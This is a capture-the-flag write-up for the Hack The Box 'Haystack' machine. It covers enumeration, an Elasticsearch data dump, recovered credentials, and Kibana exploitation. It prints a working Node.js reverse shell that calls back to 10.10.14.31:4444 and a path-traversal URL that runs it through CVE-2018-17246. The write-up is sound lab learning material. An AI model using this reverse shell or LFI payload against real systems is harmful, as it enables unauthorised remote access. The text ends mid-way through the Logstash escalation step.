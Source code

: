 ```yaml
---
layout: post
title: HTB - Haystack Writeup
date: 2019-11-07
image: '/images/posts/htb/haystack/haystack.jpg'
categories: ["writeups"]
tags: ["writeups", "haystack", "htb"]
---
```


* Box: Haystack
  - Difficulty: Easy
  - Points: 20
  - Release: 29 Jun 2019
  - IP: 10.10.10.115


### Initial Enumeration

#### 1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA haystack.nmap 10.10.10.115`

<img src="/images/posts/htb/haystack/haystack1.jpg">

The port scan shows ports 22, 80, 9200 are open.
Just from the scan we can identify that port 80 has **text/html** as its context-type whereas port 9200 has **application/json**. This can point towards some kind of API running as API's usually return with **json**.

Loading up the website we see:

<img src="/images/posts/htb/haystack/haystack2.jpg">

In the meantime, we will run a gobuster scan to find any more directories:

#### 2. Gobuster Scanning

``gobuster dir -u https://10.10.10.7/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -k``

The scan doesn't find anything interesting.

Next I move to the image in the webpage. I run some basic steganography tools but nothing comes up. That is until I run **strings** on the image and search for a base64 string.

We spot the line of code that looks like base64 so let's throw that into a decoder and see the output.
We get the line ``"la aguja en el pajar es "clave"`` and when we enter that into google translate we get ``the needle in the haystack is "key"``

Next we'll move over to port 9200 which is Elasticsearch.
Visiting the webpage we can see the source code tells us the version is **6.4.2**.

After a quick search of exploits for this version we see the following tool used to dump the elasticsearch database.

https://github.com/taskrabbit/elasticsearch-dump

We candump indices by using the below command:

``curl http://10.10.10.115:9200/_cat/indices?v -s``

We can see 2 indices named **quotes** and **bank** so let's use the elasticdump tool and investigate further.

Based on the below output we generate a dump and we can analyze it by running the **cat** command and using **grep** to find particular keywords.

I start with the word **haystack** and we get the output "There's a needle in this haystack, you have to serach for it" which leads us to believe this is the correct step and to investigate deeper.

The last words of the quotes is a base64 string. Again, let's decode it and see the output:
They look to be credentials:

``User: security``
``Pass: spanish.is.key``

We can use these credentials to SSH in and get the user flag which is located at **/home/security/user.txt**


### Privilege Escalation

Now that we know we are working on an **ELK** stack we can look at the running processes to see **kibana** and **logstash** are running.

Since kibana is run internally, we can port forward it with the below command:

``ssh security@10.10.10.115 -L 5601:127.0.0.1:5601``

We load up the browser and see the Kibana version is **6.4.2**. A quick google search comes up with the following LFI exploit:

We can that it’s running kibana 6.4.2 . A quick google search gets us to CVE-2018–17246.
[CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

We can simply make a reverse shell using this JavaScript shell from: https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

I'm going to go ahead and save that in the tmp folder on the kibana server.

``
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.31", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
``

We then want to navigate to the below in the browser. We should see the listener get a connection back as the user **kibana**

``http://127.0.0.1:9000/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../tmp/shell``

Then you can run ``python -c 'import pty;pty.spawn("/bin/bash")'`` to upgrade to a Python shell.


After running LinEnum.sh we see **logstash** mentioned a few times. Since this box deals with ELK stack we can take a look into **Logstash** to see if there is anything of interest.

In **/etc/logstash**, we find a directory called **conf.d** which holds some key Logstash config files.

The three config files do the following:

I read into Logstash and how it uses these three configuration files.

- input.conf determines the conditions of the input file that Logstash will act on.
- filter.conf defines a regex that matches the contents of the input file.
- output.conf determines what actions will be taken on the input file
